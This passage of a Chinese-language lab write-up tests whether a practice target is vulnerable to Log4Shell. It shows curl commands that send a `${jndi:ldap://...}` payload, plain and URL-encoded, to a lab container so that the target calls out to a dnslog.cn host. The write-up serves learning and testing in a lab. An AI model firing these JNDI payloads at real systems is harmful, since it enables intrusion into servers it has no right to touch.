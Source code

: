 版本确实存在漏洞

#### 漏洞可利用性检测

1. 访问 [dnslog.cn](http://dnslog.cn/) 获取二级域名 `xco6xt.dnslog.cn`

![domain_1](../img/lihan3238_doc/domain_1.png)

2. 编码并发送 url

根据靶场容器ip和获取的二级域名，编码 url：

```bash
curl "http://192.168.4.129:53282/hello?payload=${jndi:ldap://xco6xt.dnslog.cn/lihan3238}"

#编码 `${jndi:ldap://xco6xt.dnslog.cn/lihan3238}` 
# `%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D`：

curl "http://192.168.4.129:53282/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"
```
